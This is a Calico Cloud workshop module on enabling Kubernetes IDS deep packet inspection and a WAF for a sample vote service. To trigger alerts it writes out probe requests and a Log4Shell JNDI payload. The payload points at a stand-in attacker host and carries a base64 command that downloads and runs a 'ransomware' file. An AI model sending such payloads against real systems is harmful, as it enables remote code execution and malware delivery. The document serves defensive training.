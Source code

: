 # Module 6 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Find the IP address of the vote application and export it to the `VOTE_EXTERNAL` environment variable

     ```bash
     export VOTE_EXTERNAL=$(kubectl get svc -n vote vote-external -o=jsonpath='{.status.loadBalancer.ingress[*].hostname}')
     ```

   - From your shell, execute the following commands.

     ```bash
     curl -m2 http://$VOTE_EXTERNAL/cmd.exe
     curl -m2 http://$VOTE_EXTERNAL/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Deploy the WAF by running the following command:

   ```bash
   kubectl apply -f waf
   ```

2. Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

   ```bash
   kubectl run attacker --image nicolaka/netshoot -it --rm -- /bin/bash
   ```
3. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

4. Now enable the WAF using the following command from your shell (not from the pod attacker).

   ```
   kubectl patch applicationlayer tigera-secure --type='merge' -p '{"spec":{"webApplicationFirewall":"Enabled"}}'
   ```

5. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```
   
   You will note that the result will be an HTTP 403 - Forbidden. This reponse returns from the WAF.

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Security Guardrails for Network-based Threats](/modules/module-5-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
